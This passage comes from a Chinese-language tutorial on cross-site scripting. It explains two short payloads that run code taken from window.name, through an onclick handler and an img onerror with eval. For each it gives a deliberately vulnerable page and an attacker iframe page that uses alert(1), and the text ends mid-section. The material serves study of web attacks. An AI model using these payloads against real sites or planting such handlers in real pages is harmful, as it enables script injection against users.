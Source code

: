 S1:上面的代码文译一下：

```
<i/onclick=document.URL=window.name>

```

S2:其实这段代码和上一段差不多多少，这里就不截图了，简单的讲解一下。通过点击执行事件把window.name的内容给document.URL然后执行javascript代码。那么我们可以怎么利用呢？

存在缺陷的XSS页面如下：

```
<!DOCTYPE html>
<html>
    <body>
        <i/onclick=URL=name>
    </body>
</html>

```

本地构造的攻击页面如下：

```
<!DOCTYPE html>
<html>
    <body>
        <iframe src="11.html" name="javascript:alert(1)"></iframe>
    </body>
</html>

```

### `<img src=x onerror=eval(name)>`

S1:先把代码文译一下：

```
<img src=x onerror=eval(window.name)>

```

S2:邪恶的eval又来了。通过img元素的src属性出错，执行onerror事件，通过邪恶的eval执行window.name里面的代码。

S3:那我们怎么来实现呢？

本地构造的攻击页面如下：

```
<!DOCTYPE html>
<html>
    <body>
        <iframe src="11.html" name="alert(1)"></iframe>
    </body>

```

存在缺陷的XSS页面如下：
